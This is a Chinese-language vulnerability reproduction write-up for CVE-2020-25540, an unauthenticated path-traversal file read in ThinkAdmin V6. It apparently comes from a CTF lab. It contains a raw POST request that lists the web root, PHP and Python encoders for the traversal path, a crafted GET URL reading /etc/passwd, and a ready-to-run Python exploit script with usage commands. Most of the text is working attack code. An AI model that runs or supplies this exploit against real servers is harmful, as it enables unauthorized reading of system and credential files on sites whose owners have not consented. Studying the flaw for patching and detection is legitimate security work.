



# CVE-2020-25540（Thinkadmin V6任意文件读取）

<div style="text-align: right;">

date: "2023-08-22"

</div>


参考文章：[ThinkAdmin（CVE-2020-25540）漏洞复现 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/254365.html)

## 漏洞描述

- Thinkadmin v6任意文件读取漏洞
- ThinkAdmin V6版本存在路径遍历漏洞，可利用该漏洞通过GET请求编码参数任意读取远程服务器上的文件。


## 漏洞原理

- Update.php中的函数方法未授权，可直接函数可直接调用，导致漏洞产生。


## 漏洞复现
### 目录遍历
请求网站任意页面，将GET请求改为POST，修改访问URL为`/admin.html?s=admin/api.Update/node`，修改请求包参数为`rules=%5b%22%2f%22%5d`，rules中的参数为URL编码后结果，解码为`["/"]`，整体数据包如下：
```
POST /admin.html?s=admin/api.Update/node HTTP/1.1
Host: eci-2zefz41yrkioq3tfo54b.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-GB;q=0.8,en;q=0.7
Cookie: chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; think_lang=zh-cn; PHPSESSID=a0ecc0c5766fc1e8a00737ac92caed05
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

rules=%5B%22%2F%22%5D
```


注：目录遍历返回的内容为当前网站根目录，目录遍历内容超出限制则会报错

### 任意文件读取
其文件名加密格式如下：
```
<?phpfunction encode($content){list($chars, $length) = ['', strlen($string = iconv('UTF-8', 'GBK//TRANSLIT', $content))];for ($i = 0; $i < $length; $i++) $chars .= str_pad(base_convert(ord($string[$i]), 10, 36), 2, 0, 0);return $chars;}$content="flag.txt";echo encode($content);?>
```
用python代码表示，只需要修改content即可输出其它访问路径加密后的结果：
```
def encode(content):
    chars = ""
    string = content.encode('GBK', 'ignore').decode('GBK')  # Convert to GBK encoding
    length = len(string)

    for i in range(length):
        char_code = ord(string[i])
        char_encoding = base36_encode(char_code)
        chars += char_encoding.zfill(2)

    return chars


def base36_encode(n):
    """Converts an integer to base36."""
    if n == 0:
        return '0'
    digits = []
    while n:
        n, remainder = divmod(n, 36)
        digits.append('0123456789abcdefghijklmnopqrstuvwxyz'[remainder])
    return ''.join(reversed(digits))


content = "/../../../../../../etc/passwd"
encoded = encode(content)
print(encoded)

```
使用Get请求访问python代码输出的加密路径，即可获取Base64加密的内容
```
https://example.com/admin/api.Update/get/encode/1b1a1a1b1a1a1b1a1a1b1a1a1b1a1a1b1a1a1b2t382r1b342p37373b2s
```

## 脚本
脚本原理：

1. 首先获取用户需要读取的文件路径
2. 将获取到的路劲转为特定的文件名，拼接用户输入的URL进行读取
3. 将读取的内容进行Base64解码

```
import argparse
import requests
import base64


def base36_encode(n):
    """将整数转换为基36编码字符串。"""
    if n == 0:
        return '0'
    digits = []
    while n:
        n, remainder = divmod(n, 36)
        digits.append('0123456789abcdefghijklmnopqrstuvwxyz'[remainder])
    return ''.join(reversed(digits))


def main():
    parser = argparse.ArgumentParser(description='CVE-2020-25540（Thinkadmin v6任意文件读取漏洞）')
    parser.add_argument('-i', '--integers', type=str, required=True, help='目标地址')
    parser.add_argument('-p', '--param', type=str, default='/../../../../../../etc/passwd',
                        help='目标文件的路径，示例：/../../../../../../etc/passwd')
    args = parser.parse_args()

    param = ''.join(base36_encode(ord(char)).zfill(2) for char in args.param.encode('GBK', 'ignore').decode('GBK'))
    url = args.integers
    full_url = f"{url}/admin/api.Update/get/encode/{param}"

    res = requests.get(full_url)
    result = res.json()

    if result['code'] == 1:
        content_data = result['data']['content']
        decoded_data = base64.b64decode(content_data).decode('GBK')
        print("获取文件内容为：" + decoded_data)
    else:
        print("漏洞不存在或读取文件路径输入错误")


if __name__ == "__main__":
    main()
```
使用方法：
```
python3 CVE-2020-25540.py -i http://example.com:80
python3 CVE-2020-25540.py -i http://example.com:80 -p /../../../../../../etc/passwd
```
结果展示
